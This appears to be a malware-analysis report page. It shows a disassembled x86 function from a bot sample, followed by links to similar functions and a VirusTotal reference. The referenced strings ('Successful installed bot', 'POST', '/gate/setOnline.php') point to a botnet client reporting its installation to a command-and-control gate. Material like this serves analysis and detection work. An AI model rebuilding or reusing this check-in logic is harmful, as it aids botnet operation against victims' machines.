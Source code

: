 lea ecx,[ebp-0x1d8]
call fcn.00401cd0
push ebx
push edi
lea ecx,[ebp-0x1bc]
mov byte[ebp-4],0x18
call fcn.00401cd0
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x464],esp
push 0xf
pop esi
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Install___Successful_installed_bot
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x464],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.POST
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov byte[ebp-4],0x5b
mov eax,esp
mov dword[ebp-0x460],esp
call fcn.00402915
lea ecx,[ebp-0x1bc]
call fcn.0040a2a1
mov edi,eax
lea esi,[ebp-0x1d8]
mov byte[ebp-4],0x5c
call fcn.0040933e
push eax
lea eax,[ebp-0x210]
push 0x428a00
push eax
mov byte[ebp-4],0x5d
call fcn.004029ac
push str.einstalll
push eax
lea eax,[ebp-0x1f4]
push eax
mov byte[ebp-4],0x5e
call fcn.004029e3
mov ecx,eax
push ecx
mov byte[ebp-4],0x5f
mov eax,edi
mov dword[ebp-0x460],esp
mov edi,esp
call fcn.00402a1a
sub esp,0x1c
mov byte[ebp-4],0x60
mov ecx,esp
mov dword[ebp-0x474],esp
mov dword[ecx+0x14],0xf
mov dword[ecx+0x10],ebx
push str._gate_setOnline.php
mov byte[ecx],bl

[similar_1_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_2_ref]: /report/fcn.004172d1@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.0043883a@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.0040495d@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_5_ref]: /report/fcn.00420823@b3771987fba16f4fba07d1109ec72c76
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6
